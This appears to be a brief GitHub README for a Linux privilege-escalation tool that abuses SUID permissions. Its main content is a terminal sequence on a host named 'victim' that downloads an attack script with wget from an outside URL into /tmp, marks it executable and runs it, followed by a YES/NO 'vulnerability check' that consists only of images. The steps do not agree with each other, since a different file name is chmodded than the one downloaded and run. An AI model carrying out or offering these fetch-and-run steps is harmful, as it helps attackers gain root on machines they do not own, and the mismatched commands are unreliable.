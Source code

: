 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget "https://raw.githubusercontent.com/d4t4s3c/CPULimit/master/CPU_Fuck.sh"
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./CPU_Fuck.sh
```

**Vulnerability Check**

`YES`

![](/01.png)

`NO`

![](/02.png)
